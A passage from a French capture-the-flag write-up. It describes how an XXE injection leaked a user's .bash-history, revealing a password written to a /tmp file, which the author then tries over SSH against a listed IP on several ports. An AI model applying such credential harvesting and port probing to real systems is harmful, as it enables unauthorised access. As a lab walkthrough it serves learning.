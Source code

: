 ![Desktop View](/assets/img/20250427/mission-04-bash-history-leak.png){: width="572" height="400" }
_Injection XXE mène à la fuite de /home/document-user/.bash-history_

dans lequel on apprends que document-user à renseigné une clé SSH dans un fichier temporaire : 
```bash
echo "cABdTXRyUj5qgAEl0Zc0a" >> /tmp/exec_ssh_password.tmp
```
Naturellement, j'ai donc essayé de me connecter au serveur en tant que **document-user** : 
```bash
$ ssh document-user@163.172.67.183            
ssh: connect to host 163.172.67.183 port 22: Connection refused
```

Mais la connexion SSH sur le port standard ne semble malheuresement pas disponible. J'ai donc essayé manuellement d'autres ports (on aurait pu aussi lancer un scan **nmap**):
```bash
$ ssh document-user@163.172.67.183 -p 222            
ssh: connect to host 163.172.67.183 port 222: Connection refused

$ ssh document-user@163.172.67.183 -p 2222            
ssh: connect to host 163.172.67.183 port 2222: Connection refused

$ ssh document-user@163.172.67.183 -p 22222 
The authenticity of host '[163.172.67.183]:22222 ([163.172.67.183]:22222)' can't be established.
ED25519 key fingerprint is SHA256:FUMdLgfIiHMTJVa2uDJhwomIuO6aJy6B3ioUIfXkD1I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[163.172.67.183]:22222' (ED25519) to the list of known hosts.
document-user@163.172.67.183's password: 
Permission denied, please try again.           
```
La clé ssh qu'on a trouvé précédemment ne semble pas être liée à document-user, essayons avec executor : 


[mission06]: /posts/DGSE-CTF-OSINT